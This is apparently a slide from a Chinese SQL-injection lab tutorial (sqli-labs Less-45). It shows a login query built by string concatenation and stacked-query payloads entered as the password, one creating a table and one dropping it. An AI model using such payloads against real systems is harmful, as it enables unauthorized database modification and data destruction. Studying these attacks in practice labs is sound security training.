

# Less-45
为了测试方便，我们在代码中加入：
echo $sql;
echo "<br>";
本关和less43关的基本是一样的，只是没有报错回显信息
此时的sql为： $sql = "SELECT * FROM users WHERE username=('$username') and password=('$password’)”;
在登录的时候，我们使用任意的username，password可以构造为：
a’); create table crow like users; #   然后观察是否有crow表
a‘);  drop table crow; # 观察crow表是否删除